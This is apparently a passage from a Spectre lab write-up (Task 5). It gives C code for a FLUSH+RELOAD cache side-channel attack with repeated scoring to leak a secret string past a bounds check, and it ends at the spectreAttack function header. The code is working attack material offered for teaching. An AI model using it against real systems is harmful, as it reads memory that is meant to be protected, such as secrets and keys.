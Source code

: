 ## Task 5: Improve the Attack Accuracy

> In the previous tasks, it may be observed that the results do have some noise and the results are not always accurate. This is because CPU sometimes load extra values in cache expecting that it might be used at some later point, or the threshold is not very accurate. This noise in cache can affect the results of our attack. We need to perform the attack multiple times; instead of doing it manually, we can use the following code to perform the task automatically.

```c
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>


unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9}; 
uint8_t temp    = 0;
char    *secret = "Some Secret Value";   
uint8_t array[256*4096];

#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
     return buffer[x];
  } else {
     return 0;
  }
}

void flushSideChannel()
{
  int i;
  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 + DELTA]);
}

static int scores[256];
void reloadSideChannelImproved()
{
int i;
  volatile uint8_t *addr;
  register uint64_t time1, time2;
  int junk = 0;
  for (i = 0; i < 256; i++) {
    addr = &array[i * 4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD)
      scores[i]++; /* if cache hit, add 1 for this value */
  } 
}

void spectreAttack(size_t index_beyond)
```